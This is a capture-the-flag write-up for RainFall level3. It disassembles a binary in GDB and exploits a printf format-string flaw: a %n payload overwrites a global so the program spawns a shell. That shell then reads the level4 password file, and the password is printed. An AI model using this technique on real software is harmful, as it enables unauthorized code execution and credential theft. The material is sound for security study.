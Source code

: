 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buf[0] in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buf[0] in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; ebx = eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push 0x804860d content to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end of the function without executing `fwrite` and `system`.

We look at the content of the address 0x804860d (`x/s 0x804860d` command in gdb) pushed on the stack before the call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `cmp eax,0x40` instruction to reach this `system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in 'Ressources' directory) about the format string one.

This will allow us to write the value 0x40 (64 in decimal) in the address `0x804988c` which is copied to `eax` before the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th converted argument that `printf` is the address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value 64 in the address `0x804988c`.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x0812345678901234567890123456789012345678901%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```